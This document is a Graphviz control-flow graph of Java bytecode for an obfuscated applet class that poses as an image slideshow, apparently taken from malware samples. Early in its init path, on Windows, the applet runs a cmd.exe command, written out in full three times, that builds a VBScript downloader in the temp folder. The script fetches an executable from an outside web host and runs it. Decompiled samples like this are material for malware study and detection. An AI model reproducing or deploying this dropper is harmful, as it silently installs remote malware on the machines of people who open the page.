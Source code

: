 digraph "" {
    "r0 := @this: S7B4M6W7"
    "push \"os.name\""
    "r0 := @this: S7B4M6W7"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "iflt load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\K6Y5X6S2.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\K6Y5X6S2.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\K6Y5X6S2.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\K6Y5X6S2.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\K6Y5X6S2.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\K6Y5X6S2.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.Open >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\K6Y5X6S2.vbs & echo Function BinaryGetURL(URL) >> %temp%\\K6Y5X6S2.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\K6Y5X6S2.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\K6Y5X6S2.vbs & echo YK16ggjQQ.Send >> %temp%\\K6Y5X6S2.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\K6Y5X6S2.vbs & echo End Function >> %temp%\\K6Y5X6S2.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\C7F7C3S4.exe\\\" >> %temp%\\K6Y5X6S2.vbs & start %temp%\\K6Y5X6S2.vbs http://videos.legitmoviesonline.com/java.exe %temp%\\C7F7C3S4.exe\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\K6Y5X6S2.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\K6Y5X6S2.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\K6Y5X6S2.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\K6Y5X6S2.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\K6Y5X6S2.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\K6Y5X6S2.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.Open >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\K6Y5X6S2.vbs & echo Function BinaryGetURL(URL) >> %temp%\\K6Y5X6S2.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\K6Y5X6S2.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\K6Y5X6S2.vbs & echo YK16ggjQQ.Send >> %temp%\\K6Y5X6S2.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\K6Y5X6S2.vbs & echo End Function >> %temp%\\K6Y5X6S2.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\C7F7C3S4.exe\\\" >> %temp%\\K6Y5X6S2.vbs & start %temp%\\K6Y5X6S2.vbs http://videos.legitmoviesonline.com/java.exe %temp%\\C7F7C3S4.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\K6Y5X6S2.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\K6Y5X6S2.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\K6Y5X6S2.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\K6Y5X6S2.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\K6Y5X6S2.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\K6Y5X6S2.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.Open >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\K6Y5X6S2.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\K6Y5X6S2.vbs & echo Function BinaryGetURL(URL) >> %temp%\\K6Y5X6S2.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\K6Y5X6S2.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\K6Y5X6S2.vbs & echo YK16ggjQQ.Send >> %temp%\\K6Y5X6S2.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\K6Y5X6S2.vbs & echo End Function >> %temp%\\K6Y5X6S2.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\C7F7C3S4.exe\\\" >> %temp%\\K6Y5X6S2.vbs & start %temp%\\K6Y5X6S2.vbs http://videos.legitmoviesonline.com/java.exe %temp%\\C7F7C3S4.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "load.r r0"
    "goto load.r r0"->"load.r r0";
    "push -1"
    "load.r r0"->"push -1";
    "fieldput <S7B4M6W7: int w>"
    "push -1"->"fieldput <S7B4M6W7: int w>";
    "fieldput <S7B4M6W7: int w>"->"load.r r0";
    "load.r r0"->"push -1";
    "fieldput <S7B4M6W7: int h>"
    "push -1"->"fieldput <S7B4M6W7: int h>";
    "fieldput <S7B4M6W7: int h>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <S7B4M6W7: boolean whb>"
    "push 0"->"fieldput <S7B4M6W7: boolean whb>";
    "fieldput <S7B4M6W7: boolean whb>"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color white>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"transition_delay\""
    "load.r r0"->"push \"transition_delay\"";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"transition_delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "push 10"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 100"
    "push 10"->"push 100";
    "virtualinvoke <S7B4M6W7: int fi(java.lang.String,int,int)>"
    "push 100"->"virtualinvoke <S7B4M6W7: int fi(java.lang.String,int,int)>";
    "fieldput <S7B4M6W7: int dly>"
    "virtualinvoke <S7B4M6W7: int fi(java.lang.String,int,int)>"->"fieldput <S7B4M6W7: int dly>";
    "fieldput <S7B4M6W7: int dly>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"delay\""
    "load.r r0"->"push \"delay\"";
    "push \"delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 1000"
    "push 10"->"push 1000";
    "push 1000"->"virtualinvoke <S7B4M6W7: int fi(java.lang.String,int,int)>";
    "fieldput <S7B4M6W7: int wp>"
    "virtualinvoke <S7B4M6W7: int fi(java.lang.String,int,int)>"->"fieldput <S7B4M6W7: int wp>";
    "fieldput <S7B4M6W7: int wp>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"step_count\""
    "load.r r0"->"push \"step_count\"";
    "push \"step_count\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 20"
    "push 10"->"push 20";
    "push 20"->"virtualinvoke <S7B4M6W7: int fi(java.lang.String,int,int)>";
    "fieldput <S7B4M6W7: int sc>"
    "virtualinvoke <S7B4M6W7: int fi(java.lang.String,int,int)>"->"fieldput <S7B4M6W7: int sc>";
    "fieldput <S7B4M6W7: int sc>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"mode\""
    "load.r r0"->"push \"mode\"";
    "push \"mode\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 10"->"push 0";
    "push 0"->"virtualinvoke <S7B4M6W7: int fi(java.lang.String,int,int)>";
    "fieldput <S7B4M6W7: int modd>"
    "virtualinvoke <S7B4M6W7: int fi(java.lang.String,int,int)>"->"fieldput <S7B4M6W7: int modd>";
    "fieldput <S7B4M6W7: int modd>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <S7B4M6W7: int modd>"
    "load.r r0"->"fieldget <S7B4M6W7: int modd>";
    "push 2"
    "fieldget <S7B4M6W7: int modd>"->"push 2";
    "rem.i"
    "push 2"->"rem.i";
    "rem.i"->"fieldput <S7B4M6W7: int modd>";
    "fieldput <S7B4M6W7: int modd>"->"load.r r0";
    "new java.awt.MediaTracker"
    "load.r r0"->"new java.awt.MediaTracker";
    "dup1.r"
    "new java.awt.MediaTracker"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "fieldput <S7B4M6W7: java.awt.MediaTracker tracker>"
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <S7B4M6W7: java.awt.MediaTracker tracker>";
    "fieldput <S7B4M6W7: java.awt.MediaTracker tracker>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "fieldput <S7B4M6W7: int i>"
    "push 1"->"fieldput <S7B4M6W7: int i>";
    "fieldput <S7B4M6W7: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_valign\""
    "load.r r0"->"push \"image_valign\"";
    "push \"image_valign\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <S7B4M6W7: java.lang.String ivalign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <S7B4M6W7: java.lang.String ivalign>";
    "fieldput <S7B4M6W7: java.lang.String ivalign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_align\""
    "load.r r0"->"push \"image_align\"";
    "push \"image_align\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <S7B4M6W7: java.lang.String ialign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <S7B4M6W7: java.lang.String ialign>";
    "fieldput <S7B4M6W7: java.lang.String ialign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"image\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <S7B4M6W7: int i>"
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "fieldget <S7B4M6W7: int i>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <S7B4M6W7: java.lang.String bs>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <S7B4M6W7: java.lang.String bs>";
    "fieldput <S7B4M6W7: java.lang.String bs>"->"load.r r0";
    "fieldget <S7B4M6W7: java.lang.String bs>"
    "load.r r0"->"fieldget <S7B4M6W7: java.lang.String bs>";
    "ifnonnull load.r r0"
    "fieldget <S7B4M6W7: java.lang.String bs>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "fieldget <S7B4M6W7: int i>"->"push 1";
    "sub.i"
    "push 1"->"sub.i";
    "sub.i"->"fieldput <S7B4M6W7: int i>";
    "fieldput <S7B4M6W7: int i>"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "fieldget <S7B4M6W7: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "fieldput <S7B4M6W7: int num>"
    "fieldget <S7B4M6W7: int i>"->"fieldput <S7B4M6W7: int num>";
    "fieldput <S7B4M6W7: int num>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <S7B4M6W7: int num>"
    "load.r r0"->"fieldget <S7B4M6W7: int num>";
    "fieldget <S7B4M6W7: int num>"->"push 1";
    "add.i"
    "push 1"->"add.i";
    "newarray"
    "add.i"->"newarray";
    "fieldput <S7B4M6W7: java.awt.Image[] img>"
    "newarray"->"fieldput <S7B4M6W7: java.awt.Image[] img>";
    "fieldput <S7B4M6W7: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int num>";
    "fieldget <S7B4M6W7: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <S7B4M6W7: int[] imgw>"
    "newarray"->"fieldput <S7B4M6W7: int[] imgw>";
    "fieldput <S7B4M6W7: int[] imgw>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int num>";
    "fieldget <S7B4M6W7: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <S7B4M6W7: int[] imgh>"
    "newarray"->"fieldput <S7B4M6W7: int[] imgh>";
    "fieldput <S7B4M6W7: int[] imgh>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int num>";
    "fieldget <S7B4M6W7: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <S7B4M6W7: int[] dur>"
    "newarray"->"fieldput <S7B4M6W7: int[] dur>";
    "fieldput <S7B4M6W7: int[] dur>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <S7B4M6W7: int i>";
    "fieldput <S7B4M6W7: int i>"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "fieldget <S7B4M6W7: int i>"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int num>";
    "ifcmpgt.i load.r r0"
    "fieldget <S7B4M6W7: int num>"->"ifcmpgt.i load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "fieldget <S7B4M6W7: java.awt.Image[] img>"
    "load.r r0"->"fieldget <S7B4M6W7: java.awt.Image[] img>";
    "fieldget <S7B4M6W7: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "fieldget <S7B4M6W7: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "fieldget <S7B4M6W7: int i>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "arraywrite.r"
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "fieldget <S7B4M6W7: java.awt.MediaTracker tracker>"
    "load.r r0"->"fieldget <S7B4M6W7: java.awt.MediaTracker tracker>";
    "fieldget <S7B4M6W7: java.awt.MediaTracker tracker>"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: java.awt.Image[] img>";
    "fieldget <S7B4M6W7: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "arrayread.r"
    "fieldget <S7B4M6W7: int i>"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "push 5"
    "fieldget <S7B4M6W7: int i>"->"push 5";
    "push 5"->"rem.i";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "rem.i"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "fieldget <S7B4M6W7: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <S7B4M6W7: int i>";
    "fieldput <S7B4M6W7: int i>"->"goto load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "fieldput <S7B4M6W7: int durum>"
    "push 0"->"fieldput <S7B4M6W7: int durum>";
    "fieldput <S7B4M6W7: int durum>"->"load.r r0";
    "specialinvoke <java.applet.Applet: void show()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: void show()>";
    "specialinvoke <java.applet.Applet: void show()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int width>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
    "fieldget <java.awt.Dimension: int width>"->"fieldput <S7B4M6W7: int w>";
    "fieldput <S7B4M6W7: int w>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int height>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
    "fieldget <java.awt.Dimension: int height>"->"fieldput <S7B4M6W7: int h>";
    "fieldput <S7B4M6W7: int h>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <S7B4M6W7: int w>"
    "load.r r0"->"fieldget <S7B4M6W7: int w>";
    "fieldget <S7B4M6W7: int w>"->"load.r r0";
    "fieldget <S7B4M6W7: int h>"
    "load.r r0"->"fieldget <S7B4M6W7: int h>";
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"
    "fieldget <S7B4M6W7: int h>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
    "fieldput <S7B4M6W7: java.awt.Image offi>"
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <S7B4M6W7: java.awt.Image offi>";
    "fieldput <S7B4M6W7: java.awt.Image offi>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <S7B4M6W7: java.awt.Image offi>"
    "load.r r0"->"fieldget <S7B4M6W7: java.awt.Image offi>";
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"
    "fieldget <S7B4M6W7: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
    "fieldput <S7B4M6W7: java.awt.Graphics offg2>"
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <S7B4M6W7: java.awt.Graphics offg2>";
    "fieldput <S7B4M6W7: java.awt.Graphics offg2>"->"load.r r0";
    "fieldget <S7B4M6W7: java.awt.Graphics offg2>"
    "load.r r0"->"fieldget <S7B4M6W7: java.awt.Graphics offg2>";
    "fieldget <S7B4M6W7: java.awt.Graphics offg2>"->"push 0";
    "push 0"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int w>";
    "fieldget <S7B4M6W7: int w>"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int h>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"
    "fieldget <S7B4M6W7: int h>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
    "fieldput <S7B4M6W7: java.awt.Container container>"
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <S7B4M6W7: java.awt.Container container>";
    "fieldput <S7B4M6W7: java.awt.Container container>"->"load.r r0";
    "fieldget <S7B4M6W7: java.awt.Container container>"
    "load.r r0"->"fieldget <S7B4M6W7: java.awt.Container container>";
    "instanceof"
    "fieldget <S7B4M6W7: java.awt.Container container>"->"instanceof";
    "ifne load.r r0"
    "instanceof"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: java.awt.Container container>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"
    "fieldget <S7B4M6W7: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <S7B4M6W7: java.awt.Container container>";
    "fieldput <S7B4M6W7: java.awt.Container container>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: java.awt.Container container>";
    "checkcast"
    "fieldget <S7B4M6W7: java.awt.Container container>"->"checkcast";
    "fieldput <S7B4M6W7: java.awt.Frame frm>"
    "checkcast"->"fieldput <S7B4M6W7: java.awt.Frame frm>";
    "fieldput <S7B4M6W7: java.awt.Frame frm>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <S7B4M6W7: boolean whb>";
    "return"
    "fieldput <S7B4M6W7: boolean whb>"->"return";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <S7B4M6W7: int i>";
    "fieldput <S7B4M6W7: int i>"->"goto load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: java.lang.String bs>";
    "push \".gif\""
    "fieldget <S7B4M6W7: java.lang.String bs>"->"push \".gif\"";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "push \".gif\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: java.lang.String bs>";
